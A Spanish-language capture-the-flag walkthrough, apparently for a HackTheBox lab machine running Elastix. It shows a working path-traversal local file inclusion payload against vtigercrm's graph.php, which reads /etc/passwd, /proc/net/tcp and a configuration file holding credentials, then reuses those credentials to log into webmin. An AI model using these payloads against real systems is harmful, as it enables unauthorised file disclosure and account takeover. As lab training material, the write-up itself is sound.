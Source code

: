 ## Vulnerability Assessment {-}

### Elastix {-}

```bash
searchsploit elastix
```

Aqui vemos una serie de exploits y un script escrito en perl nos llama la atencion, porque permite hacer un
Local File Inclusion.

```bash
searchsploit -x 37637
```

Vemos que el exploit pasa por una url que usa path traversal `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
En este caso el fichero `/etc/amportal.conf` lo miramos mas tarde y empezamos primero con enumerar informaciones de la maquina.

Le metemos en firefox la url siguiente: `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`
y podemos ver el fichero.

Vemos que hay multiples usuarios con una `/bin/bash`

- fanis
- spamfilter
- asterisk
- cyrus
- mysql
- root

Usamos el LFI para enumerar la maquina

```bash
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00&module=Accounts&action
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/net/tcp%00&module=Accounts&action
```

El fib_trie no nos muestra nada pero el tcp nos muestra los puertos internos que estan abiertos. Lo copiamos y lo pegamos en un fichero.
Como los puertos estan representado de forma hexadecimal, tenemos que tratar la data.

```bash
cat data.txt | tr ':' ' ' | awk '{print $3}' | sort -u

python3
>>> 0x0016
22
>>> 0x0019
25
>>> 0x0050
80
...
```

En el caso de un LFI ficheros interessantes podrian tambien ser `/proc/shed_debug` y `/proc/shedstat`. En este caso no sirbe pero esta
bien tenerlo en cuenta.

Si miramos el fichero del exploit `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..///etc/amportal.conf%00&module=Accounts&action`
Vemos un fichero de configuracion con credenciales para una base de datos.

Si vamos por el panel de login y probamos usuarios, nos podemos connectar como el usuario admin.

Como tenemos contraseñas, intentamos connectarnos con el usuario admin pero no va.
Intentamos como el usuario root y la misma contraseña y entramos en el panel de configuracion de **webmin**.

> [ ! ] NOTAS: Tito S4vitar nos avanza que se puede ganar accesso al systema desde el dashboard de elastix y tambien del webmin pero aqui tiraremos de otras vias.

